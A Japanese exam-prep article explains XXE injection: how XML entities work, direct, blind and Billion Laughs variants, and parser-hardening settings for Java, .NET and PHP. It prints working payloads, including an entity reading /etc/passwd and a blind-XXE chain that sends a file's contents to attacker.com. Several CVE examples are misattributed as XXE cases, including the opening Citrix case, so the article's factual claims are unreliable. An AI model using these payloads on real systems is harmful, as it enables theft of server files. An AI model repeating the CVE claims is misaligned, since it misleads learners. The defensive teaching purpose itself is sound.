



## XXEインジェクションの全貌：攻撃の仕組みから対策・試験対策まで徹底解説

## はじめに
XXE（XML External Entity）インジェクションは、XML処理機能を持つアプリケーションで発生する深刻な脆弱性です。2023年に公表されたCVE-2023-24488（Citrix ADC/ Gateway）では認証情報漏洩の原因となり、OWASP Top 10でも継続的に危険度が高い脆弱性として挙げられています。この攻撃を理解しないと、**機密ファイルの読み取り・内部システムスキャン・サービス拒否攻撃**が発生するリスクがあります。特にSOAP APIやファイルアップロード機能を実装するシステムでは必須の知識です。

```
[被害例]
攻撃者 → XML送信 → サーバーが/etc/passwdを読み取り → 認証情報漏洩
```

## 前提知識
### XMLとエンティティの基本
XML（eXtensible Markup Language）はデータ構造を定義するマークアップ言語です。DTD（Document Type Definition）では文書構造を定義し、**エンティティ（Entity）** と呼ばれる「XMLの変数」を使用できます。

```xml
<!DOCTYPE user [
  <!ENTITY company "ABC株式会社"> <!-- 内部エンティティ -->
]>
<profile>
  <name>山田太郎</name>
  <belong>&company;</belong> <!-- ここで"ABC株式会社"に展開 -->
</profile>
```

**外部エンティティ（External Entity）** は`SYSTEM`キーワードで外部リソースを参照します：
```xml
<!ENTITY secret SYSTEM "file:///etc/passwd">
```
⚠️ **試験ポイント**：`file://`や`http://`プロトコルが外部参照に使用される

### XMLパーサーの役割
アプリケーションがXMLデータを受け取ると、XMLパーサー（例：JavaのSAXParser）がエンティティを解決（展開）します。デフォルト設定では**外部エンティティの解決が有効**なことが問題の根源です。

## 基本概念
XXEインジェクションは、**攻撃者が悪意ある外部エンティティを注入し、XMLパーサーに意図しないリソースアクセスをさせる攻撃**です。以下の流れで発生します：

```
[攻撃フロー]
1. 攻撃者が外部エンティティを含むXMLを送信
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
2. アプリケーションが脆弱な設定でXMLを解析
3. XMLパーサーが外部リソースを取得
4. 取得内容がレスポンスに含まれて漏洩
```

**攻撃タイプの分類**：
- 直接漏洩：ファイル内容が直接HTTPレスポンスに現れる
- ブラインドXXE：結果が見えない場合（DNS/HTTPリクエストで検出）
- DoS攻撃：「Billion Laughs攻撃」（爆発的にエンティティを展開）

## 技術的な深堀り
### エンティティ解決のメカニズム
XMLパーサーはRFC 7303（XML Media Types）に準拠し、エンティティ解決時にURIスキームを処理します：



**危険なデフォルト設定**：
- Java：SAXParserFactoryの`http://apache.org/xml/features/disallow-doctype-decl`が**false**
- .NET：XmlReaderSettingsの`XmlResolver`プロパティが**nullでない**

NIST SP 800-95では「XML Threat Mitigation」として外部エンティティの無効化を推奨しています。

### ブラインドXXEの技術
レスポンスに結果が表示されない場合、攻撃者は外部サーバーへデータを送信させます：
```xml
<!ENTITY % payload SYSTEM "file:///confidential.txt">
<!ENTITY % call "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?data=%payload;'>">
%call;
```

⚠️ **試験で頻出**：`%`を使ったパラメータエンティティ（DTD内でのみ使用可能）

## 攻撃・脆弱性の観点
### 実際の攻撃シナリオ


**代表的なCVE事例**：
- CVE-2019-6447：ESファイルエクスプローラー（任意ファイル読み取り）
- CVE-2021-29447：WordPress（XXE経由のSSRF）
- CVE-2022-26376：Apache HTTP Server（mod_proxy連携での内部漏洩）

## 対策・ベストプラクティス
### 根本的対策


**具体的な実装例**：
- Java（SAXParser）：
  ```java
  SAXParserFactory spf = SAXParserFactory.newInstance();
  spf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  spf.setFeature("http://xml.org/sax/features/external-general-entities", false);
  ```
- .NET：
  ```csharp
  var settings = new XmlReaderSettings { 
    DtdProcessing = DtdProcessing.Prohibit,
    XmlResolver = null // 外部参照を禁止
  };
  ```
- PHP（libxml）：
  ```php
  libxml_disable_entity_loader(true);
  ```

**追加対策**：
1. XMLではなくJSONを使用（本当にXMLが必要か再検討）
2. コンテンツタイプ検証：`application/xml`以外を拒否
3. WAF（Web Application Firewall）でのパターンブロック

## 📝 試験対策ポイント

| カテゴリ       | 重要ポイント                                                                 | 引っかけパターン例                     |
|----------------|-----------------------------------------------------------------------------|----------------------------------------|
| **攻撃手法**   | ファイル読み取り・SSRF・DoSの3タイプ                                        | 「JSON APIではXXE発生しない」→✗        |
| **対策設定**   | `disallow-doctype-decl`や`XmlResolver=null`                                | 「ENTITY禁止のみで十分」→✗（完全無効化必須） |
| **関連技術**   | SOAP, RESTful API, ファイルアップロード機能                                 | 「クライアントサイドのみの処理では無害」→✗ |
| **影響範囲**   | 機密情報漏洩・認証バイパス・サービス停止                                     | 「読み取りのみ可能」→✗（RCEに発展する場合も）|

⚠️ **頻出問題パターン**：
- 「外部エンティティを無効にする設定」を選ばせる選択肢
- ブラインドXXEの検出方法（DNS問い合わせを利用）
- Billion Laughs攻撃の特徴（指数関数的なメモリ消費）

## まとめ
XXEインジェクションはXMLパーサーの設定不備により、**外部リソースへの不正アクセスを許す脆弱性**です。対策の核心は「外部エンティティの無効化」にあり、言語ごとの適切な設定方法を理解することが重要です。支援士試験では「攻撃タイプの識別」「具体的な無効化設定」が頻出します。次に学ぶべき関連テーマは**SSRF（Server-Side Request Forgery）** です。XXEとSSRFは併せて理解することで、外部リソースアクセス系の脆弱性対策が体系的に身につきます。

> 安全なXML処理は「パーサーの硬化（Hardening）」から  
> 設定１つで情報漏洩を防ぐエンジニアでありましょう